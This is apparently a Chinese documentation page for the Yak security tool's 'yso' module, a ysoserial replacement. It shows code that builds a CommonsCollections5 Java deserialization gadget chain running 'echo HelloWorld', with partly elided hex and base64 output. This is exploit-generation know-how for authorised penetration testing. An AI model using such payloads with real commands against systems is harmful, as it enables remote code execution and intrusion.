 ```yaml
---
sidebar_position: 113
---
```


# Java 反序列化利用链: yso(ysoserial)

Yak 通过非 Java 的方式实现了一整套 Java 反序列化协议。

可以在一定容错限度内劫持绝大部分 Java 反序列化流。

详情参考 [java: java 反序列化协议的 Golang/Yak 实现](/docs/api/java)

## YSoSerial 的 Yak 替代品

在实现了 Java 反序列化协议后，Java 相关漏洞不再需要原生 Java 或硬编码 HEX/Binary 流来实现。

```go
evilCls, err = yso.GetCommonsCollections5("echo HelloWorld")
die(err)

bytes = java.MarshalJavaObjects(evilCls)
hexStr = codec.EncodeToHex(bytes)
base64Str = codec.EncodeBase64(bytes)

dump(bytes)
println(hexStr + "\n")
println(base64Str + "\n")

/*
OUTPUT:

([]uint8) (len=2084 cap=2304) {
 00000000  ac ed 00 05 73 72 00 2e  6a 61 76 61 78 2e 6d 61  |....sr..javax.ma|
 00000010  6e 61 67 65 6d 65 6e 74  2e 42 61 64 41 74 74 72  |nagement.BadAttr|
 00000020  69 62 75 74 65 56 61 6c  75 65 45 78 70 45 78 63  |ibuteValueExpExc|
 00000030  65 70 74 69 6f 6e d4 e7  da ab 63 2d 46 40 02 00  |eption....c-F@..|
                                ......
                                ......
                                ......
                                        c 61 6e 67 2e 4e 75  |xr..java.lang.Nu|
 000007c0  6d 62 65 72 86 ac 95 1d  0b 94 e0 8b 02 00 00 78  |mber...........x|
 000007d0  70 00 00 00 01 73 72 00  11 6a 61 76 61 2e 75 74  |p....sr..java.ut|
 000007e0  69 6c 2e 48 61 73 68 4d  61 70 05 07 da c1 c3 16  |il.HashMap......|
 000007f0  60 d1 03 00 02 46 00 0a  6c 6f 61 64 46 61 63 74  |`....F..loadFact|
 00000800  6f 72 49 00 09 74 68 72  65 73 68 6f 6c 64 78 70  |orI..thresholdxp|
 00000810  3f 40 00 00 00 00 00 00  77 08 00 00 00 10 00 00  |?@......w.......|
 00000820  00 00 78 78                                       |..xx|
}

aced00057372002e6a617661782e6d616e6167656d656e74......c1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f40000000000000770800000010000000007878

rO0ABXNyAC5qYXZheC5tYW5hZ2VtZW50LkJhZEF0dHJpYnV0ZVZhbHVlRXhwRXhj......HVleHIAEGphdmEubGFuZy5OdW1iZXKGrJUdC5TgiwIAAHhwAAAAAXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAB3CAAAABAAAAAAeHg=
*/
```